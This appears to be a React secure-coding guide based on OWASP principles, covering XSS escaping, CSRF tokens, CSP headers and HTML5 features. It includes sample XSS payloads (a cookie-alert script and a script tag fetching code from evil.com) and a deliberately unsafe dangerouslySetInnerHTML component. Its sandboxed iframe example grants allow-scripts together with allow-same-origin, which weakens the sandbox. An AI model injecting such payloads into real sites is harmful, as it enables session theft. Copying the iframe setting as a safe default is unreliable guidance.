 ### 1\. Cross-Site Scripting (XSS) Prevention

XSS is a common vulnerability where an attacker injects malicious scripts into a trusted website. When a user visits the site, the script executes, potentially stealing sensitive data, session cookies, or impersonating the user.

**OWASP Principle:** Treat all user-provided data as untrusted. Sanitize and encode input and output to prevent code injection.

**Problem Scenario:** A social media application allows users to create posts. An attacker posts a comment containing the following malicious script: `<script>alert(document.cookie)</script>`. If the application renders this comment as-is, any user viewing it will have their session cookie exposed to the attacker.

**React Implementation & Example:**

React's built-in security feature for XSS prevention is its automatic escaping of content rendered in JSX. By default, React DOM escapes any values embedded in curly braces (`{}`) before rendering them. This means `<script>` tags and other malicious code are converted into strings and displayed as text, not executed as code.

```jsx
// Unsafe and vulnerable way (DO NOT DO THIS)
function BadPost({ content }) {
  // Using dangerouslySetInnerHTML bypasses React's escaping mechanism.
  // This is a major security risk if 'content' is not sanitized.
  return <div dangerouslySetInnerHTML={{ __html: content }} />;
}

// Safe and recommended way
function SafePost({ content }) {
  // React automatically escapes 'content' here.
  // If 'content' is "I am a post with a script <script>alert('xss')</script>",
  // React renders it as a plain string, preventing the script from running.
  return <div>{content}</div>;
}
```

**Note on `dangerouslySetInnerHTML`:** This attribute should be used with extreme caution and only when you have a strong reason to render raw HTML. If you must use it, ensure that the content you're injecting is sanitized on the server-side first using a library like `DOMPurify`.

-----

### 2\. Cross-Site Request Forgery (CSRF) Prevention

CSRF tricks a user into submitting a malicious request to a server on behalf of a trusted user, without their knowledge.

**OWASP Principle:** The most effective defense is a CSRF token. The server generates a unique, unpredictable token, includes it in a hidden form field, and verifies it with each state-changing request (POST, PUT, DELETE).

**Problem Scenario:** A bank website has a `transfer` endpoint that takes a recipient and an amount. The attacker knows this endpoint and crafts a fake website with a hidden form that automatically submits a transfer request to the bank when a user visits the page. If the user is already logged in to their bank account, the request will be authenticated and the transfer will be completed.

**React Implementation & Example:**

In a modern React application, this is handled on the server and within the API calls, not strictly in the front-end. The React app's role is to ensure the CSRF token is included in the requests.

1.  **Server-Side:** The server generates a CSRF token and sends it to the client, typically as a cookie or in the initial page load.
2.  **Client-Side (React):** The React application reads this token. For every `POST`, `PUT`, or `DELETE` request, the app includes the token in a custom HTTP header (e.g., `X-CSRF-Token`).

<!-- end list -->

```javascript
// Example using a CSRF token from a cookie with Axios
import axios from 'axios';
import Cookies from 'js-cookie';

const csrfToken = Cookies.get('csrf-token'); // Assuming the server sent a cookie

// Create an Axios instance to automatically include the CSRF token
const apiClient = axios.create({
  headers: {
    'X-CSRF-Token': csrfToken,
  },
});

async function submitProtectedForm(data) {
  try {
    // This request will now include the CSRF token in the header
    const response = await apiClient.post('/api/protected-action', data);
    return response.data;
  } catch (error) {
    console.error('CSRF protection failed:', error);
    throw error;
  }
}
```

-----

### 3\. Content Security Policy (CSP)

CSP is an added layer of security that helps mitigate XSS and other data injection attacks. It specifies which domains the browser should consider valid sources for scripts, styles, and other resources.

**OWASP Principle:** Use a strong, restrictive CSP to create an "allowlist" of trusted sources. This header is sent from the server.

**Problem Scenario:** An attacker successfully injects a malicious script `<script src="https://evil.com/malicious.js"></script>`. Without a CSP, the browser will download and execute this script, as it's a valid `<script>` tag. With a CSP, the browser will block the request to the `evil.com` domain.

**React Implementation & Example:**

This is a server-side concern. The React front-end doesn't control the HTTP headers, but it must be configured to work within the CSP rules.

**Server-Side Configuration (e.g., in `express.js`):**

```javascript
const express = require('express');
const app = express();

app.use((req, res, next) => {
  // Set a Content Security Policy header
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';"
  );
  next();
});
```

The React application must ensure all its scripts and other resources are served from a whitelisted domain (`'self'` in this case). If you are using a third-party CDN for fonts or libraries, you must add their domain to the CSP.

-----

### 4\. HTML5 Security Considerations

Modern browsers and HTML5 provide new features that, if not used carefully, can introduce vulnerabilities.

**OWASP Principle:** Be mindful of new HTML5 features and their security implications.

**React Implementation & Example:**

  * **Sanitize APIs:** Avoid using new HTML5 APIs like `localStorage` to store sensitive data (e.g., tokens) as they are vulnerable to XSS attacks. Store them in `httpOnly` cookies instead.
  * **Sandbox `<iframe>`:** When using `<iframe>` elements to embed third-party content, always use the `sandbox` attribute to restrict what the embedded content can do.
  * **Prevent Tabnabbing:** When opening external links with `target="_blank"`, use `rel="noopener noreferrer"` to prevent the new tab from gaining control over the originating tab's window object.

<!-- end list -->

```jsx
// React component showing safe practices
function SafeLink({ url, text }) {
  // Prevents the new tab from accessing 'window.opener' and prevents referrer information
  return <a href={url} target="_blank" rel="noopener noreferrer">{text}</a>;
}

// Sandbox an iframe
function SandboxedIframe({ src }) {
  return (
    <iframe
      src={src}
      sandbox="allow-scripts allow-same-origin allow-popups"
      title="sandboxed content"
    ></iframe>
  );
}
```

-----

### Security Considerations Default Supported by React

React itself provides several security measures by default, primarily by focusing on the safe rendering of dynamic content.

  * **Automatic Escaping of Data:** As mentioned in the XSS section, React automatically escapes any dynamic values rendered within JSX. This is its single most important security feature for front-end development. It converts potentially harmful characters (`<`, `>`) into safe HTML entities, rendering them harmless.

  * **No Direct DOM Manipulation:** React's virtual DOM and component-based architecture discourage direct DOM manipulation, which is a common source of security vulnerabilities. Developers are encouraged to update the state of a component, and React handles the updates to the DOM, abstracting away a layer of potential security risks.

  * **Component Isolation:** The component model promotes separation of concerns and encapsulation. While not a direct security feature, well-designed components can help prevent security flaws from spreading across the application, as a vulnerability in one component may be contained.

**_OWASP Cheat Sheet Series_**
https://cheatsheetseries.owasp.org/
